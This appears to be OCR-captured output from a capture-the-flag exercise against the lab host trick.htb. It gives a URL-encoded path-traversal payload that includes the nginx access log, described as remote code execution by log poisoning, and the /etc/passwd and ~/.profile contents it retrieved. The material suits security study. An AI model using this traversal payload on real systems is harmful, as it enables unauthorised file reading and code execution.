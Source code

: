 [+] Remote code execution (RCE) found with log poisong with the path http://preprod-marketing.trick.htb/index.php?page=%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F/var/log/nginx/access.log

# etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash

# ~/.profile: executed by the command interpreter for login shells. # This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login # exists. # see /usr/share/doc/bash/examples/startup-files for examples. # the files are located in the bash-doc package. # the default umask is set in /etc/profile; for setting the umask # for ssh logins, install and configure the libpam-umask package. #umask 022 # if running bash if [ -n "$BASH_VERSION" ]; then # include .bashrc if it exists if [ -f "$HOME/.bashrc" ]; then . "$HOME/.bashrc" fi fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/bin" ] ; then PATH="$HOME/bin:$PATH" fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/.local/bin" ] ; then PATH="$HOME/.local/bin:$PATH" fi
